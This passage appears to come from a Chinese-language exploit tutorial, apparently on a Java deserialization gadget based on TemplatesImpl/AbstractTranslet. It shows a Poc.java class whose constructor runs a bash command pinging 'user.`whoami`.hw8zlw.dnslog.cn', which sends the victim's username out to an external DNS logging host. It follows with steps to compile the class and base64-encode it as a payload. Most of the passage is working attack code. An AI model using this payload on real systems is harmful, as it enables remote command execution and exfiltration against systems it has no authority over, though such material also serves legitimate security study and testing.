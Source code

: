 

Poc.java
```shell
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Poc extends AbstractTranslet {


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }


    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public Poc() throws IOException {
        try {
            String[] commands = {"/bin/bash", "-c", "ping user.`whoami`.hw8zlw.dnslog.cn"};
            Process p = Runtime.getRuntime().exec(commands);
            p.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws IOException {
        Poc helloworld = new Poc();
    }
}
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646054703244-9318e3c4-9853-476c-9096-f071a32b2880.png#clientId=u353ff384-1880-4&from=paste&height=442&id=u908cc962&margin=%5Bobject%20Object%5D&name=image.png&originHeight=589&originWidth=816&originalType=binary&ratio=1&size=97600&status=done&style=none&taskId=u9b5d3122-683e-42d5-9c70-2e6e56c4aec&width=612)

   - 使用`jdk1.5`编译成`Exploit.class`，这里直接使用绝对路径命令进行编译。
```shell
/opt/jdk1.5/jdk1.5.0_22/bin/javac Poc.java
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646055256160-a45eb3a2-087d-4328-ad0f-7ceccde76515.png#clientId=u353ff384-1880-4&from=paste&height=29&id=ufa59ae36&margin=%5Bobject%20Object%5D&name=image.png&originHeight=39&originWidth=641&originalType=binary&ratio=1&size=12251&status=done&style=none&taskId=u14edd7e0-62ae-429b-b1ee-b8444f7cad0&width=481)
### （2）将`Poc.class`进行base64编码
```shell
cat Poc.class | base64 -w 0 | xargs
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646054931453-fce7ef10-45dd-421e-ace3-6b1ee9d5ca3d.png#clientId=u353ff384-1880-4&from=paste&height=122&id=u10b381e8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=163&originWidth=575&originalType=binary&ratio=1&size=25855&status=done&style=none&taskId=ubde82304-eb20-4166-9f36-73ba15d77e0&width=431)
